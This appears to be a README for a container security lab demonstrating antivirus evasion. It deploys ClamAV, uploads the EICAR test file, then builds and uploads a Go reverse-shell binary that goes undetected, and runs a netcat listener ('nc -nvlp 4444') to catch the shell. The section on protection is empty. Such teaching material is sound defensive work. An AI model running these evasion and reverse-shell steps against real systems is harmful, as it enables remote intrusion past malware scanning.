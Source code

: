 # Demo 01: Antivirus Evasion and Local File Inclusion Attacks

## Running an Application with a File Upload Function

## Deploying ClamAV as a Container
```bash
cd clamav/
docker-compose -f server.yaml up
```

## Attack a Container Using Known Malware
```bash
python client.py -f EICAR
```

## Attack a Container Using Unknown Malware
```bash
cd ../attacker/
python ../clamav/client.py -f reverse_shell.go
```

```bash
go build reverse_shell.go
python ../clamav/client.py -f reverse_shell
```

```bash
nc -nvlp 4444
./reverse_shell
```

## Protecting a Container From Unknown Malware

